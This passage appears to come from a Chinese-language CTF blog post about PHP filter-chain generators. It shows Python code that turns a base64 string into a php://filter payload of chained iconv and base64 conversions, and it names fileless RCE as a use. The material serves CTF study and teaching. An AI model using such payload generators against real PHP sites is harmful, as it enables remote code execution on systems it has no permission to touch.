 ```python
        rawbase64 = args.rawbase64.replace("=", "")
        match = re.search("^([A-Za-z0-9+/])*$", rawbase64)
        if (match):
            chain = generate_filter_chain(rawbase64, True)
            print(chain)
        else:
            print ("[-] Base64 string required.")
            exit(1)

if __name__ == "__main__":
    main()
```

其实核心部分就这几行：

```python
    for c in encoded_chain[::-1]:
        filters += conversions[c] + "|"
        # decode and reencode to get rid of everything that isn't valid base64
        filters += "convert.base64-decode|"
        filters += "convert.base64-encode|"
        # get rid of equal signs
        filters += "convert.iconv.UTF8.UTF7|"
    if not debug_base64:
        # don't add the decode while debugging chains
        filters += "convert.base64-decode"

    final_payload = f"php://filter/{filters}/resource={file_to_use}"
    return final_payload
```

和test.py其实是一样的，所以不多赘述x，不过相比起来这个更好理解~

## [filterChainFuzzerAndGenerator](https://github.com/ProbiusOfficial/filterChainFuzzerAndGenerator) （自己改了一份优化版本x

一个基于php和python的Filter链的fuzz和生成程序。

可能使用的场景:

- 无文件RCE
- CTF中的Web
- CTF中的MISC
- ......（更多可能？）

### About

你可以在下面这篇文档中了解原理和更多细节

- [【idekCTF 2022】Paywall — filter链构造和扩展](https://dqgom7v7dl.feishu.cn/docx/RL8cdsipLoYAMvxl8bJcIERznWH)

此外，感谢下面的项目提供的思路
